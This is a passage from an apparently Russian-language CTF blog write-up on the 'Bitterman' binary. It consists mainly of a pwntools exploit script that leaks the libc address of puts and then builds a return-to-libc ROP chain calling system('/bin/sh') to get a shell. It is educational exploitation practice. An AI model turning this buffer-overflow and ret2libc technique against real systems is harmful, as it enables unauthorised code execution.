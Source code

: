 ```python
init-peda
start''')
"""

r.recvuntil('What\'s your name?')
r.sendline('snovvcrash')
r.recvuntil('Please input the length of your message:')
r.sendline('31337')
r.recvuntil('Please enter your text:')
r.clean()
raw_input('[?] Отправляю пейлоад?')
r.sendline(payload)
r.recvuntil('Thanks!')
received = r.recvuntil('What\'s your name?')[:8].strip()
leaked_puts = u64(received.ljust(8, '\x00'))
log.success('Слитый адрес puts@GLIBC: %s' % hex(leaked_puts))

# ----------------- Фаза 2. Return-to-libc -----------------

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
libc.address = leaked_puts - libc.symbols['puts']
rop2 = ROP(libc)

log.info('Фаза 2. Return-to-libc')
rop2.system(next(libc.search('/bin/sh\x00')))
log.success('Составлена пейлоад для атаки ret2libc')
log.info('ROP2:\n' + rop2.dump())

payload2 = junk + str(rop2)

#r.recvuntil('What\'s your name?')
r.sendline('snovvcrash')
r.recvuntil('Please input the length of your message:')
r.sendline('31337')
r.recvuntil('Please enter your text:')
r.clean()
raw_input('[?] Отправляю пейлоад2?')
r.sendline(payload2)
r.recvuntil('Thanks!')
r.clean()

r.interactive()
```

Выполним то, что мы натворили, и получим, наконец, свой шелл.

[![bitterman-pwn.png]({{ "/img/pwn-kingdom/bitterman/bitterman-pwn.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/bitterman-pwn.png" | relative_url }})
{: .center-image}

Bitterman has been PwN3d! :triumph:

В четвертой (и заключительной) части серии мы разберем тачку Smasher с Hack The Box, изюминкой прохождения которой стал низкоуровневый сплоитинг веб-сервера. Stay tuned!


[//]: # (2019-10-23)